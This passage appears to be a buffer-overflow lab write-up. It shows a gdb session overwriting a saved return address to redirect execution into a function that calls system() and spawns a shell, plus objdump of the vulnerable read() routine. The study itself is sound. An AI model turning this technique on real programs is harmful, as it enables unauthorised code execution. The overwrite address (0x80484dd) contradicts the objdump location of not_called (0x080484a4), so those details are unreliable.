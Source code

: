 ```sh
(gdb) r 
(gdb) set buf = "AAAA" #mark our pointer so they are easier to spot 
(gdb) x/32 $esp #examine memory of stack 
0xffffcf50:	0x000003e8	0x000003e8	0x000003e8	0x08048341
0xffffcf60:	0xffffd232	0x0000002f [0x41414141]	0x00000000
0xffffcf70:	0x00000001	0xffffd034	0xffffcf98 [0x08048550]
0xffffcf80:	0xf7fb13c4	0xf7ffd000	0x0804857b	0xf7fb1000
0xffffcf90:	0x08048570	0x00000000	0x00000000	0xf7e1fa83
0xffffcfa0:	0x00000001	0xffffd034	0xffffd03c	0xf7feacea
0xffffcfb0:	0x00000001	0xffffd034	0xffffcfd4	0x0804a01c
0xffffcfc0:	0x0804825c	0xf7fb1000	0x00000000	0x00000000
(gdb) 
```

I highlighted the interesting part in the stack  
```
0xffffcf60:	0xffffd232	0x0000002f [0x41414141]	0x00000000
```  
1. This is the memory there `buf` is stored  
```
0xffffcf70:	0x00000001	0xffffd034	0xffffcf98 [0x08048550]
```  
2. `ret` pointer is located here as well, pointing to `0x08048550` is where we should go next after `vulnerable_function` is called.We simply need to overwrite this pointer to where we wanted the program to go `not_called()` 

```
(gdb) set *(int *)($ebp + 4) =  0x80484dd 
(gdb) c
Continuing.
BBBB
u24@u24:~/Desktop$ whoami
u24
```

As you can see, we have dropped into shell, the idea are indeed correct. 

Testing our idea for this 
---

looking at our objdump for the binary file we have this 

```asm
080484a4 <not_called>:
 80484a4:   55                      push   %ebp
 80484a5:   89 e5                   mov    %esp,%ebp
 80484a7:   83 ec 18                sub    $0x18,%esp
 80484aa:   c7 04 24 10 86 04 08    movl   $0x8048610,(%esp)
 80484b1:   e8 ea fe ff ff          call   80483a0 <system@plt>
 80484b6:   c9                      leave  
 80484b7:   c3                      ret    

080484b8 <vulnerable_function>:
 80484b8:   55                      push   %ebp
 80484b9:   89 e5                   mov    %esp,%ebp
 80484bb:   81 ec 98 00 00 00       sub    $0x98,%esp #allocate 0x98 (152) byte for stack 
 80484c1:   c7 44 24 08 00 01 00    movl   $0x100,0x8(%esp) # push 256 as param 3 for read
 80484c8:   00 
 80484c9:   8d 85 78 ff ff ff       lea    -0x88(%ebp),%eax #reference to &buf = $ebp - 0x88
 80484cf:   89 44 24 04             mov    %eax,0x4(%esp) 
 80484d3:   c7 04 24 00 00 00 00    movl   $0x0,(%esp)
 80484da:   e8 a1 fe ff ff          call   8048380 <read@plt>
 80484df:   c9                      leave  
 80484e0:   c3                      ret    
```
